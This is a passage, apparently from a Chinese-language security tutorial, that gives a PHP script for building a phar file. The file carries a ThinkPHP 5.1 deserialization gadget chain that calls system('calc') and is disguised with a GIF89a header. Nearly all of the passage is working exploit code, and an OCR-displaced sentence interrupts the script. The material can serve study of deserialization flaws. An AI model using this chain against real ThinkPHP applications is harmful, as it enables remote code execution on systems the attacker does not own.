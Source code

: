 利用链使用了 Tp5.1 反序列化利用链 (后续的阶段会对 Tp 反序列化利用链进行分析)，我们将该文件生成 phar 文件。

```bash
<?php
namespace think\process\pipes {
  class Windows
 {
    private $files;
    public function __construct($files)
   {
      $this->files = [$files];
   }
 }
}
namespace think\model\concern {
  trait Conversion
 {
 }
  trait Attribute
 {
    private $data;
    private $withAttr = ["v" => "system"];
    public function get()
   {
      $this->data = ["v" => "calc"];
   }
 }
这里生成我们的 pahr 文件，如果生成时报错了可以将 php.ini 配置文件中的 phar.readonly 选项设置为
Off 就可以成功生成了。

}
namespace think {
  abstract class Model
 {
    use model\concern\Attribute;
    use model\concern\Conversion;
 }
}
namespace think\model{
  use think\Model;
  class Pivot extends Model
 {
    public function __construct()
   {
      $this->get();
   }
 }
}
namespace {
  $conver = new think\model\Pivot();
  $a = new think\process\pipes\Windows($conver);
  @unlink("phar.phar");
  $phar = new Phar("phar.phar"); //后缀名必须为 phar
  $phar->startBuffering();
  $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置 stub
  $phar->setMetadata($a); //将自定义的 meta-data 存入 manifest
  $phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
  $phar->stopBuffering();
}
?>
```
